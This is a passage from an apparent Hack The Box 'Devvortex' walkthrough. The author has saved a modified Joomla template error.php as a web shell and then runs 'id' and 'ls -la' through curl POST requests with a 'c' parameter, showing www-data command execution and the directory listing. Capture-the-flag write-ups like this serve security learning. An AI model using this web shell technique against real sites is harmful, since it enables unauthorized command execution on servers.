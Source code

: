 ![webshell](Sun-26-2023_02-09.png)

I then hit "Save & Close". I now have command execution! All I have to do is send a command in the paramter `c` to the `error.php` page.
```bash
┌──(kali㉿Kali)──[20:22:58]──[~/htb/Machines/Devvortex]
└─$ curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php -X POST --data "c=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
                                                                                                                               
┌──(kali㉿Kali)──[20:23:05]──[~/htb/Machines/Devvortex]
└─$ curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php -X POST --data "c=ls -la"
total 80
drwxr-xr-x 4 www-data www-data  4096 Oct 29 16:21 .
drwxr-xr-x 4 www-data www-data  4096 Dec 13  2022 ..
drwxr-xr-x 3 www-data www-data  4096 Oct 26 16:06 cassiopeia
-r--r--r-- 1 root     www-data  3888 Dec 13  2022 component.php
-rw-r--r-- 1 www-data www-data 10169 Nov 26 04:23 error.php
drwxr-xr-x 6 www-data www-data  4096 Dec 13  2022 html
-r--r--r-- 1 root     www-data 23204 Oct 26 16:06 index.php
-rwxr-xr-x 1 www-data www-data  3008 Dec 13  2022 joomla.asset.json
-r--r--r-- 1 www-data www-data 10196 Dec 13  2022 offline.php
-rwxr-xr-x 1 www-data www-data  4670 Dec 13  2022 templateDetails.xml
```